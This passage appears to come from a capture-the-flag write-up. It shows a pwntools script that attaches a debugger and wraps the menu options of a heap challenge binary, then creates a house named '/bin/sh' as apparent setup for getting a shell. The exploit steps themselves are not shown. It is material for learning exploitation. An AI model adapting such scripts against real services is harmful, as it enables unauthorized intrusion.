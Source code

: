 ```python=
gdb.attach(p, """c""")


def create_house(name, size, desc):
	print("create")
	p.sendlineafter(">> ", "1")
	p.sendlineafter(": ", name)
	p.sendlineafter(": ", str(size))
	p.sendlineafter(": ", desc)


def create_person(name, size, desc):
	print("create")
	p.sendlineafter(">> ", "2")
	p.sendlineafter(": ", name)
	p.sendlineafter(": ", str(size))
	p.sendlineafter(": ", desc)


def add(idx, house):
	print("add")
	p.sendlineafter(">> ", "3")
	p.sendlineafter(": ", str(idx))
	p.sendlineafter(": ", str(house))


def remove(house, idx):
	print("remove")
	p.sendlineafter(">> ", "4")
	p.sendlineafter(": ", str(house))
	p.sendlineafter(": ", str(idx))


def view_house(idx):
	print("view house")
	p.sendlineafter(">> ", "5")
	p.sendlineafter(": ", str(idx))


def view_person(house, idx):
	print("view person")
	p.sendlineafter(">> ", "6")
	p.sendlineafter(": ", str(house))
	p.sendlineafter(": ", str(idx))


def party(house):
	print("party")
	p.sendlineafter(">> ", "7")
	p.sendlineafter(": ", str(house))


def destroy(house):
	print("destroy")
	p.sendlineafter(">> ", "8")
	p.sendlineafter(": ", str(house))



create_house("AAAA", 5, "AAAA")
create_house("/bin/sh", 5, "ls")


```